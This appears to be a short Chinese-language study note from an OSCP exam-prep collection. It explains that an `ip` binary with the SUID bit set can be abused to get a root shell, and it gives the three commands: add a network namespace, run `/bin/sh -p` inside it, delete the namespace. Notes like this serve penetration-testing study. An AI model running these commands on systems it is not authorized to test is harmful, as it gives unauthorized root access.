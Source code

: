 # ip

`ip` 若具有 `s` 权限，可使用如下命令直接提权至 root 权限：

```
ip netns add foo
ip netns exec foo /bin/sh -p
ip netns delete foo
```

![ip](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-ip.png)

